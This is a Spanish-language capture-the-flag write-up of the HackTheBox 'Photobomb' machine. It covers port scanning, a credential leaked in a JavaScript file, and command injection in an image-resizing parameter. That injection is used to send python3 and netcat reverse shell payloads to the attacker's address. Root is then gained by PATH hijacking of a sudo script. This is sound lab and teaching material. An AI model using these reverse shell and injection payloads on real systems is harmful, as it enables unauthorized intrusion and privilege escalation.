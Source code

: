 ```yaml
---
title: Photobomb WriteUp
author: H4ckerLite 
date: 2023-02-04 00:00:00 +0800
categories: [hackthebox, machine, writeup]
tags: [linux, hackthebox, writeup, easy, command injection, path hijacking, virtual hosting]
pin: false
image:
  path: ../../assets/img/commons/photoBomb-writeup/Photobomb.png 
  alt: Photobomb WriteUp
---
```


Hoy tocará explotar la máquina **Photobomb** de [HackTheBox](https://app.hackthebox.com/machines/photobomb), es de dificultad fácil. Haremos un `command injection` y para la escalada haremos un `Path Hijacking`


## Escaneo NMAP

Antes de empezar les recomiendo hacer un escaneo para saber que puertos estan abiertos y que servicios corren por ellos, ya que esta información nos sera util para continuar con la prueba de penetración.


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.182 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-04 13:24 -04
Initiating SYN Stealth Scan at 13:24
Scanning 10.10.11.182 [65535 ports]
Discovered open port 80/tcp on 10.10.11.182
Discovered open port 22/tcp on 10.10.11.182
Completed SYN Stealth Scan at 13:24, 17.92s elapsed (65535 total ports)
Nmap scan report for 10.10.11.182
Host is up, received user-set (0.16s latency).
Scanned at 2023-02-04 13:24:12 -04 for 18s
Not shown: 61907 closed tcp ports (reset), 3626 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.08 seconds
           Raw packets sent: 87248 (3.839MB) | Rcvd: 67894 (2.716MB)
```



Nos percatamos que tiene el SSH abierto y el puerto 80 que corresponde al HTTP, al entrar a la web no vemos nada, ya que se esta aplicando virtual hosting, para solucionarlo hacemos lo siguiente:



```bash
echo "10.10.11.182       photobomb.htb" | tee -a /etc/hosts
```

## Enumeración

Vemos una pagina de inicio con un redirect a `/printer`


 ![WebSite]({{ 'assets/img/commons/photoBomb-writeup/main.png' | relative_url }}){: .center-image }
 _Web Site_


Si intentamos acceder nos pedirá credenciales

 ![login]({{ 'assets/img/commons/photoBomb-writeup/login.png' | relative_url }}){: .center-image }
 _Log in_

Podemos probar credenciales típicas por defecto, pero no resultará útil.

```
admin:admin
admin:password
admin:pass
guest:guest

```
Si revisamos el código fuente nos encontramos con cosaas interesantes.

Le aplicamos un **curl**.
```bash
❯ curl -s -X GET http://photobomb.htb
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```
Podemos ver un script de JavaScript, si vemos su contenido se nos filtra una cookie

```bash
❯ curl -s -X GET http://photobomb.htb/photobomb.js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
Al copiar dicha cookie, podemos ver el panel `/printer`.

![login]({{ 'assets/img/commons/photoBomb-writeup/confirm.png' | relative_url }}){: .center-image }
_Log in_

## Explotación

En este apartado vemos unas imagenes las cuales podemos descargar y hacer pequeñas modificaciones como ser:
>Cambiarle la extensión y modicar el tamaño.


![printer]({{ 'assets/img/commons/photoBomb-writeup/printer.png' | relative_url }}){: .center-image }
_Printer_

Podemos interceptar la petición con BurpSuite y ver mas a detalles como se estructura todo

![Burp]({{ 'assets/img/commons/photoBomb-writeup/burp.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver si es vulnerable a un **Command injection**, pero antes que nada inicia un servidor con `python`

```bash
python -m http.server 80
```
Mandamos la petición al `Repeater`, para ello presionamos `Ctrl + R`
Si nos fijamos en los parametros podemos agregar `;` y añadir nuestro comando, se vería así

![BurpSuite]({{ 'assets/img/commons/photoBomb-writeup/burp1.png' | relative_url }}){: .center-image }
_BurpSuite_

Podemos ver que no le gusta en algunos parametros, pero con haciendo prueba y error encontramos que el parametro `filetype` es vulnerable, lo podemos comprobar en la petición

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.182 - - [04/Feb/2023 14:45:12] "GET / HTTP/1.1" 200 -
```
Podemos intentar enviarnos una reverse shell, usano esta [página](https://www.revshells.com/) podemos hacer la reverse shell con varias opciones.
Probaremos con bash pero no funciona, así que podemos probar con python3 y esta nos lanzará la shell

```python
export RHOST="10.10.14.25";export RPORT=444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```
![RCE]({{ 'assets/img/commons/photoBomb-writeup/burp2.png' | relative_url }}){: .center-image }
_RCE_


>Nota: Si usas nc mkfifo y url encode te lanzará la shell igual

```bash
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.25%20444%20%3E%2Ftmp%2Ff
```

Ganamos acceso a la máquina, estamos listos para rootearla
```bash
❯ nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.11.182] 49946
wizard@photobomb:~/photobomb$ 
```
Toca realizar un tratamiento a la tty, te puedes guiar de mi [blog](https://h4ckerlite.github.io/posts/tty).


Una vez adentro podemos leer la primera flag

```bash
wizard@photobomb:~/photobomb$ cat ../user.txt 
06****************************78
wizard@photobomb:~/photobomb$ 
```



## Escalada de privilegios

Si vemos los privilegios **SUDOERS** vemos que podemos ejecutar un programa hecho en **bash**

```bash
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
Vemos que lo podemos ejecutar sin proporcionar ninguna contraseña, es decir que al ejecuralo como **sudo** sera ejecutado de forma temporal como root sin proporcionar contraseña

```bash
wizard@photobomb:~/photobomb$ sudo /opt/cleanup.sh 
wizard@photobomb:~/photobomb$ 
```

Si vemos el contenido de dicho archivo nos encontramos con binarios que podemos usar para elevar nuestros privilegios.

```bash
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~/photobomb$ 

```
Vemos que el binario `find` esta con ruta relativa no absoluta y esto puede derivar a un **Path Hijacking**, 

Podemos aprovechar que podemos cambiar variables de entorno como el Path para que nos ejecute el comando find personalizado, y bajo el contexto de sudo nuestro binario find lo ejecutará root.

```bash
wizard@photobomb:/tmp$ echo bash > find
wizard@photobomb:/tmp$ chmod 777 find 
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
wizard@photobomb:/tmp$ ls -l /bin/bash
root@photobomb:/home/wizard/photobomb# 

```
Ya rooteamos la máquina, lo que hicimos fue hacer un binario perzonalizado find que nos lanze una bash como root, en este caso, ya que el esta ejecutando el `/opt/cleanup.sh` con el binario find de forma relativa.
Procedemos a leer la flag

```bash
root@photobomb:/home/wizard/photobomb# cat /root/root.txt 
74****************************35
root@photobomb:/home/wizard/photobomb# 
```
¡¡¡Máquina Pwneada!!! Te deseo un Feliz Hackeo.


